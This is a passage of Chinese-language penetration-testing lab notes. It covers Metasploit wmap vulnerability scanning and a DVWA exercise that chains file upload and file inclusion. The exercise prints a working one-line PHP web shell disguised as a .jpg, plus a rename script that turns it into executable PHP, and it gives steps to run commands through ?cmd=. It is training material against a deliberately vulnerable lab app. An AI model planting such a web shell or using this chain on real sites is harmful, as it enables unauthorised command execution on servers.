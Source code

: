 2. 想wmap模块添加站点，并定义为目标，最后开始扫描。

3. 查看扫描的漏洞结果

```bash
   vulns
   wmap_vulns
```

4. 导出metasploit数据库为xml文件

   `db_export -f xml /root/database.xml`

# 第六章 利用-低悬的果实

## 6.1 恶意使用文件包含和上传

### 准备

访问[owasp-bwa][]/dvwa，设置DVWA Security为medium

准备一句话木马webshell_geroge.php

```php
<?
system($_GET['cmd']);
echo '<form method="post" action="../../hackable/uploads/webshell_geroge.php"><input type="text" name="cmd"/></form>';
?>
```

准备重命名脚本rename_geroge.php

```php
<?
system('mv ../../hackable/uploads/webshell_geroge.jpg ../../hackable/uploads/webshell_geroge.php');
?>
```

将上述个文件另存为jpg格式文件。

### 步骤

1. 上传两个jpg格式文件
2. 利用文件包含漏洞执行rename_geroge.jpg，将webshell_geroge.jpg改为webshell.php
3. 利用文件包含漏洞执行webshell_geroge.php
4. 在地址栏中添加`?cmd=pwd`，可以执行cmd命令

### 原理

+ DVWA Medium Level Secyurity文件上传限制MIME类型

[owaspbwa]: http://192.168.2.167